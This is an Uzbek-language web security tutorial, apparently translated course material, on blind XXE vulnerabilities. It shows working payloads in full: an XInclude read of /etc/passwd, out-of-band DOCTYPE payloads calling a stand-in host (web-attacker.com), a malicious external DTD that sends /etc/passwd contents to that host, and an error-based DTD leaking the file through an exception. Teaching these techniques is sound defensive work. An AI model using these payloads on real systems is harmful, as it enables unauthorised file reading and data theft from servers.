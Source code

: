 

Ko‘zdan yashiringan (blind) XXE zaifliklari
Ko‘plab XXE zaifliklari “ko‘zdan yashiringan” bo‘ladi. Bu — ilova tashqaridan ta’riflangan entitetlarning qiymatlarini javoblarida qaytarmaydi, shuning uchun serverdagi fayllarni to‘g‘ridan-to‘g‘ri o‘qib olish mumkin emasligini anglatadi.

Ko‘zdan yashiringan XXE zaifliklarini ham aniqlash va ekspluatatsiya qilish mumkin, lekin buning uchun yanada murakkab usullar kerak bo‘ladi. Ba’zida siz out-of-band texnikalaridan (masofaviy kanal orqali) foydalanib zaifliklarni topishingiz va ma’lumotlarni chiqarib olishingiz mumkin. Yana ba’zida XML parse qilinishida xatoliklarni qo‘zg‘atish mumkin, va shu xatolik xabarlari orqali maxfiy ma’lumotlarni oshkor qilish mumkin.

Batafsil o‘qish
Ko‘zdan yashiringan XXE zaifliklarini topish va ekspluatatsiya qilish

XXE injeksiyasi uchun yashirin hujum sathi topish
XXE injeksiyasi hujum sathi ko‘p hollarda oson aniqlanadi, chunki ilovaning oddiy HTTP trafikida XML formatidagi ma’lumotlarni o‘z ichiga olgan so‘rovlar mavjud bo‘ladi. Boshqa hollarda esa hujum sathi kamroq ko‘rinadi. Ammo, to‘g‘ri joylarni tekshirsangiz, XML bo‘lmagan so‘rovlarda ham XXE hujum sathi topishingiz mumkin.

XInclude hujumlari
Ba’zi ilovalar mijoz yuborgan ma’lumotni oladi, uni server tomonida XML hujjatiga joylaydi va so‘ng hujjatni parse qiladi. Misol uchun, mijoz yuborgan ma’lumot backenddagi SOAP so‘roviga joylashtirilsa va u xuddi shu tarzda qayta ishlansa — bunday vaziyatda klassik XXE hujumini amalga oshirish mushkul bo‘ladi, chunki siz butun XML hujjatni boshqara olmaysiz va DOCTYPE elementini qo‘shib yoki o‘zgartira olmaysiz. Biroq, XInclude yordamida hujum qilish imkoniyati bo‘lishi mumkin. XInclude — XML spetsifikatsiyasining bir qismi bo‘lib, u XML hujjatini kichik hujjatlardan birlashtirishga imkon beradi. Siz XInclude hujumini XML hujjatidagi istalgan ma’lumot maydoniga joylashtirishingiz mumkin, shuning uchun hujum siz faqatgina server tomonidagi XML hujjatiga joylashtiriladigan yagona ma’lumot elementini boshqarishingiz mumkin bo‘lgan vaziyatlarda ham amalga oshiriladi.

XInclude hujumini bajarish uchun siz XInclude namespace’ini ulashingiz va o‘qishni xohlagan fayl yo‘lini ko‘rsatishingiz kerak. Masalan:

```
<foo xmlns:xi="http://www.w3.org/2001/XInclude">
  <xi:include parse="text" href="file:///etc/passwd"/>
</foo>
```

_________________________________________________________________________________________________________________________
Ko‘zdan yashiringan (blind) XXE ni out-of-band (OAST) texnikalari yordamida aniqlash
Ko‘pincha ko‘zdan yashiringan XXE ni aniqlash uchun XXE → SSRF hujumlarida ishlatiladigan usuldan foydalanish mumkin — ya’ni tarmoq orqali chetga (out-of-band) o‘z nazoratingiz ostidagi tizimga so‘rov yuborilishini qo‘zg‘ashingiz kerak. Masalan, tashqi entitetni quyidagicha e’lon qilishingiz mumkin:

```xml
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> ]>
```

So‘ngra aniqlangan entitetni XML ichidagi ma’lumot qiymatida ishlatasiz.

Bu XXE hujumi serverni ko‘rsatilgan URL ga orqa tomondan HTTP so‘rov yuborishga majbur qiladi. Hujumchi DNS so‘rovi va HTTP so‘rovlarni kuzatib, shunday qilib XXE hujumi muvaffaqiyatli bo‘lganligini aniqlaydi.

Ba’zida oddiy entitetlar yordamida bajariladigan XXE hujumlari ilovaning kirish ma’lumotlarini tekshirish yoki ishlatilayotgan XML parserining qattiq sozlamalari tufayli bloklanishi mumkin. Bunday vaziyatda XML parametr entitetlaridan foydalanish mumkin. XML parametr entitetlari — DTD ichida faqat boshqa joylarda chaqirilishi mumkin bo‘lgan maxsus turdagi XML entitetlaridir. Hozircha sizga ikkita muhim jihatni bilish kifoya: birinchidan, XML parametr entitetini e’lon qilishda entitet nomidan avval foiz (%) belgisi ishlatiladi:

```xml
<!ENTITY % myparameterentity "my parameter entity value" >
```

Ikkinchidan, parametr entitetlari odatdagi ampersand (&) o‘rniga foiz (%) belgisi bilan chaqiriladi:

```
%myparameterentity;
```

Demak, ko‘zdan yashiringan XXE ni XML parametr entitetlari orqali out-of-band usulda sinash mumkin, masalan:

```xml
<!DOCTYPE foo [ <!ENTITY % xxe SYSTEM "http://f2g9j7hhkax.web-attacker.com"> %xxe; ]>
```

Ushbu XXE payload `xxe` nomli XML parametr entitetini e’lon qiladi va so‘ngra uni DTD ichida chaqiradi. Bu hujumchi domeniga DNS so‘rovi va HTTP so‘rov yuborilishiga olib keladi va shu tarzda hujumning muvaffaqiyati tasdiqlanadi.




Ko‘zdan yashiringan (blind) XXE orqali ma’lumotlarni out-of-band (chetkanal) yo‘li bilan o‘g‘irlash
Out-of-band usullari orqali ko‘zdan yashiringan XXE zaifligini aniqlash yaxshi, lekin bu zaiflikning qanday ekspluatatsiya qilinishi mumkinligini ko‘rsatmaydi. Hujumchi aslida maqsad qilgan narsa — maxfiy ma’lumotlarni o‘g‘irlashdir. Bu ko‘zdan yashiringan XXE orqali amalga oshirilishi mumkin, ammo buning uchun hujumchi o‘z nazorati ostidagi tizimga zararli DTD joylab, so‘ng in-band XXE payload ichidan tashqi DTDni chaqirishi kerak bo‘ladi.

Masalan, /etc/passwd faylining mazmunini o‘g‘irlash uchun zararli DTD quyidagicha bo‘lishi mumkin:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://web-attacker.com/?x=%file;'>">
%eval;
%exfiltrate;
```

Ushbu DTD quyidagi qadamlarni bajaradi:

1. `file` nomli XML parametr entitetini e’lon qiladi, uning qiymati `/etc/passwd` faylining mazmunidan iborat bo‘ladi.
2. `eval` nomli XML parametr entitetini e’lon qiladi; uning qiymati boshqa bir XML parametr entiteti — `exfiltrate` — ning dinamik e’lonidan iborat. `exfiltrate` entiteti hujumchi veb-serveriga HTTP so‘rov yuborilganda `file` entitetining qiymatini URL query satrida uzatadi.
3. `eval` entiteti ishlatiladi — bu `exfiltrate` entitetining dinamik e’lon qilinishini keltirib chiqaradi.
4. `exfiltrate` entiteti ishlatiladi — natijada belgilangan URL chaqiriladi va fayl mazmuni hujumchi serveriga uzatiladi.

Hujumchi zararli DTDni o‘z nazorati ostidagi tizimga (odatda o‘zining veb-serveriga) joylashi kerak. Masalan, hujumchi zararli DTDni quyidagi URLda xizmatga qo‘yishi mumkin:

```
http://web-attacker.com/malicious.dtd
```

Oxirida hujumchi zaif ilovaga quyidagi XXE payloadni yuborishi lozim:

```xml
<!DOCTYPE foo [<!ENTITY % xxe SYSTEM "http://web-attacker.com/malicious.dtd"> %xxe; ]>
```

Ushbu XXE payload `xxe` nomli XML parametr entitetini e’lon qiladi va DTD ichida uni chaqiradi. Bu XML parserni hujumchi serveridan tashqi DTDni yuklashga majbur qiladi va uni joyida (inline) talqin qiladi. Zararli DTD ichida belgilangan qadamlar bajariladi va `/etc/passwd` fayli hujumchi serveriga uzatiladi.

Eslatma
Ba’zi hollarda bu usul har doim ishlamasligi mumkin — masalan `/etc/passwd` faylidagi newline (qator yakunlash) belgilarini o‘z ichiga olgan ba’zi fayl mazmunlarini uzatib bo‘lmasligi mumkin. Buning sababi ba’zi XML parserlar tashqi entitetdagi URLni chaqirish uchun ishlatadigan API URLda qaysi belgilar ruxsat etilganini tekshiradi. Bunday holatda HTTP o‘rniga FTP protokolidan foydalanish mumkin bo‘ladi. Ba’zan esa newline belgilarini o‘z ichiga olgan ma’lumotni umuman eksfiltraytsiya qilib bo‘lmaydi; shuning uchun `/etc/hostname` kabi qator bo‘lmagan fayl maqsad qilib olinishi mumkin.


Ko‘zdan yashiringan (blind) XXE orqali xatolik xabarlari orqali ma’lumotlarni olish
Ko‘zdan yashiringan XXE ni ekspluatatsiya qilishning muqobil usuli — XML tahlilida (parsing) xato yuzaga keltirib, xato xabarida siz olib kelmoqchi bo‘lgan maxfiy ma’lumot saqlanib qolishini ta’minlashdir. Bu usul ilova xato xabarini javobda qaytarib berganda samarali bo‘ladi.

Quyidagi zararli tashqi DTD yordamida `/etc/passwd` faylining mazmunini o‘z ichiga olgan XML parsing xatosini qo‘zg‘atish mumkin:

```xml
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; error SYSTEM 'file:///nonexistent/%file;'>">
%eval;
%error;
```

Ushbu DTD quyidagi qadamlarni bajaradi:

1. `file` nomli XML parametr entitetini e’lon qiladi; uning qiymati `/etc/passwd` faylining mazmuni bo‘ladi.
2. `eval` nomli XML parametr entitetini e’lon qiladi; uning qiymati `error` deb nomlangan boshqa bir XML parametr entitetining dinamik e’lonidan iborat. `error` entiteti esa mavjud bo‘lmagan faylni yuklashga urinish orqali baholanadi — bu fayl nomi `file` entiteti qiymatini o‘z ichiga oladi.
3. `eval` entiteti ishlatiladi — bu `error` entitetining dinamik e’lon qilinishiga olib keladi.
4. `error` entiteti ishlatiladi — natijada mavjud bo‘lmagan faylni yuklashga urinish yuz beradi va xato xabarida mavjud bo‘lmagan fayl nomi (ya’ni `/etc/passwd` mazmuni) paydo bo‘ladi.

Zararli tashqi DTD chaqirilganda quyidagiga o‘xshash xato xabar hosil bo‘lishi mumkin:

```
java.io.FileNotFoundException: /nonexistent/root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
```

